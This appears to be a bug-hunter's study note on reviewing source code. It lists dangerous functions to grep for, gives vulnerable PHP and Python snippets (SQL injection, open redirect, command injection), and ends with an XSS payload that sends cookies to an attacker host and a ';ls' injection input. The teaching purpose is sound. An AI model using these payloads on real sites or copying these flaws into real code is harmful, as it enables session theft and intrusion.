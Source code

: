 Remember that, most of the time, you don’t have to be a master programmer to conduct a code review in a particular language, As long as you understand one programming language, you can apply your intuition to review a wide variety of software written in different languages. 
But understanding the target’s particular language and architecture will allow you to spot more nuanced bugs.
# The Fast Approach: grep Is Your Best Friend
These techniques are speedy and often lead to the discovery of some of the most severe vulnerabilities, but they tend to leave out the more subtle bugs.
### Dangerous Patterns
Using the grep command, look for specific functions, strings, keywords, and coding patterns that are known to be dangerous
The presence of these functions does not guarantee a vulnerability, but can alert you to possible vulnerabilities

| Language   | Function                                                                                                        | Possible vulnerability                                                                                                                                                                                                                                                                                    |
| ---------- | --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| PHP        | eval(), assert(), system(), exec(), shell_exec(), passthru(), popen(), backticks (`CODE`), include(), require() | RCE if used on unsanitized user input. eval() and assert() execute PHP code in its input, while system(), exec(), shell_exec(), passthru(), popen(), and backticks execute system commands. include() and require() can be used to execute PHP code by feeding the function a URL to a remote PHP script. |
| PHP        | unserialize()                                                                                                   | Insecure deserialization if used on unsanitized user input.                                                                                                                                                                                                                                               |
| Python     | eval(), exec(), os.system()                                                                                     | RCE if used on unsanitized user input.                                                                                                                                                                                                                                                                    |
| Python     | pickle.loads(), yaml.load()                                                                                     | Insecure deserialization if used on unsanitized user input.                                                                                                                                                                                                                                               |
| JavaScript | document.write(), document.writeln                                                                              | XSS if used on unsanitized user input. These functions write to the HTML document. So if attackers can control the value passed into it on a victim’s page, the attacker can write JavaScript onto a victim’s page.                                                                                     |
| JavaScript | document.location.href()                                                                                        | Open redirect when used on unsanitized user input. document.location.href() changes the location of the user’s page.                                                                                                                                                                                      |
| Ruby       | System(), exec(), %x(), backticks (`CODE`)                                                                      | RCE if used on unsanitized user input.                                                                                                                                                                                                                                                                    |
| Ruby       | Marshall.load(), yaml.load()                                                                                    | Insecure deserialization if used on unsanitized user input                                                                                                                                                                                                                                               |
### Leaked Secrets and Weak Encryption
- look for these issues by grepping for keywords such as (**key, secret, password, encrypt, API, login, or token**)
- Grep the names of weak algorithms like **ECB, MD4, and MD5**
- Grep for specific code import functions in the language you are using with keywords like import, require, and dependencies and search for any CVE's for them in [CVE database](https://cve.mitre.org/) 
- The process of scanning an application for vulnerable dependencies is called software composition analysis (SCA). [The OWASP Dependency-Check tool](https://owasp.org/www-project-dependency-check/)
- Look for new patches
- search for developer comments by search for comments chars (`#, //`) and terms like (todo, fix, completed, config, setup, and removed) in source code
- Search for **Debug Functionalities, Configuration Files, and Endpoints**
	- Hidden debug functionalities often lead to privilege escalation, You can often find them at special endpoints
	- search for strings like HTTP, HTTPS, FTP, and dev you might find a URL like this somewhere in the code that points you to an admin panel: `http://dev.example.com/admin?debug=1&password=password` 
	- Configuration files often have the file extensions (**.conf, .env, .cnf, .cfg, .cf, .ini, .sys, or .plist**)
	- characters that indicate URLs like HTTP, HTTPS, slashes (/), URL parameter markers (?), file extensions (.php, .html, .js, .json), and so on.

# The Detailed Approach
Instead of reading the entire codebase line by line, try these strategies to maximize your efficiency
### Important Functions
- focus on important functions, such as authentication, password reset, state-changing actions, and sensitive info reads 
```python
# vulnerable login func example 
# u can exploit it using admin'--
def login():
 query = "SELECT * FROM users WHERE username = '" + \
 request.username + "' AND password = '" + \
 request.password + "';"
 authed_user = database_call(query)
 login_as(authed_user)
```
- carefully read the code that processes **user input**
	- entry points for attackers such as HTTP params, HTTP headers, HTTP request paths, database entries, file reads, and file uploads
	- Analyze carefully and test for injections attacks (XSS, XXE, SQLI, RCE, Open Redirects)
```php
<?php
/*open redirect code snippest example
 can be exploited with attacker.com/example.com, or example.com.attacker.com*/
[...]
if ($logged_in){
 $redirect_url = $_GET['next'];
if preg_match("/example.com/", $redirect_url){
 header("Location: ". $redirect_url);
 exit;
 }
}
[...]
?>
```

```php
<?php
/*RXSS & Command Injection vulnerable code example*/
 [...]
 $url_path = parse_url($_GET['download_file'], PHP_URL_PATH);
 $command = 'wget -o stdout https://example.com' . $url_path;
 system($command, $output);
 echo "<h1> You requested the page:" . $url_path . "</h1>";
 echo $output; 
 [...]
?>
```
- we can exploit the XSS using `https://example.com/<script>document.location='http://attacker_server_ip/cookie_stealer.php?c='+document.cookie;</script>`
- Command injection with something like this 
  `https://example.com/download?download_file=https://example.com/download;ls`
- 